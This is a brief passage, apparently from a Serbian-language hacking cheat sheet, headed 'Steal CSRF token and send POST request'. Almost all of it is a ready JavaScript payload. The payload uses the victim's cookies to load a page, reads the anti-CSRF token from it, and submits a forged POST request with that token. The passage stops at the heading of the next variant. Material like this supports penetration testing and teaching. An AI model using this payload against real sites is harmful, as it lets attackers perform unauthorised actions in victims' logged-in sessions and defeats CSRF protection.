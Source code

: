 ### **Ukradi CSRF token i pošalji POST zahtev**

```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
xhr.withCredentials = true;

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
var xhr = new XMLHttpRequest();
// This tels it to return it as a HTML document
xhr.responseType = "document";
xhr.withCredentials = true;
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true);
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
page = xhr.response
// Get the input element
input = page.getElementById("token");
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value);
}
};
// Make the request
xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```

### **Ukradi CSRF token i pošalji POST zahtev korišćenjem iframe-a, forme i Ajax-a**
